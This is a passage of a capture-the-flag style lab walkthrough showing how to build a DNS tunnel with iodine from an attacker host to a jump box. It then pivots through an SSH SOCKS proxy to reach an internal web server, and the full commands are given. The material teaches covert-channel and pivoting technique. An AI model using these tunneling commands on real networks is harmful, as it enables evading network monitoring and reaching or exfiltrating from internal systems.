 ![DNS tunneling process](https://bluecatnetworks.com/wp-content/uploads/2020/11/DNS-tunneling-1024x488.png)

For this task, we will be using `jump.thm.com` to log into `victim2.thm.com` (located in Network 1), to then pivot to `web.thm.com` (located in Network 2). We will use the [**iodine**](https://github.com/yarrick/iodine) for creating our DNS tunneling communications. To establish DNS tunneling we need to:
1. Use the preconfigured nameserver, which points to the `attacker.thm.com` machine (`att.tunnel.com` -> `172.20.0.200`).
2. Run the **iodined server** from `attacker.thm.com`.
3. Run the **iodine application** from `jump.thm.com` to establish the connection.
4. SSH to the machine on the created network interface to create a proxy over DNS.
5. Once an SSH connection is established, we can use the local IP address and port as a proxy in FireFox. 

>**Iodine** is the client application, while **iodined** is the server.

1. Let's start by **running the iodined server**:

    ```shell
    # intiate the iodined server from Attacker
    thm@attacker:~$ sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com
    ```

    Breaking down the command:
    1. `iodined` The command-line utility used for setting up a DNS tunnel.
    2. `-f` Foregrounds the command.
    3. `-c` Disables checking the client IP address on all incoming requests.
    4. `-P thmpass` Sets a pre-shared password for authentication and encryption.
    5. `10.1.1.1/24` The IP address and subnet mask in CIDR notation, specifying the range of IP addresses that can be tunneled through DNS. In this case, it indicates the IP range from `10.1.1.1` to `10.1.1.255`.
    6. `att.tunnel.com` The DNS server where the DNS tunnel will be established.

2. Next, we need to connect to the server-side application from Jumpbox:

    ```shell
    # connect to iodine app from Jumpbox
    thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com
    ```

    ![dns-iodined-server-launch](dns-iodined-server-launch.png)

3. Once the connection is established, we open a new terminal and SSH to `10.1.1.2`:

    ```shell
    thm@jump-box:~$ ssh thm@10.1.1.2 -4 -f -N -D 1080
    ```

4. Now that we have connected to `jump.thm.com` over the `dns0` network, we will open a new terminal and use FireFox with `127.0.0.1:1080` as proxy settings:

    ```shell
    # use local IP address:port as a proxy in FireFox
    root@attacker$ curl --socks5 127.0.0.1:1080 http://192.168.0.100/demo.php
    ```
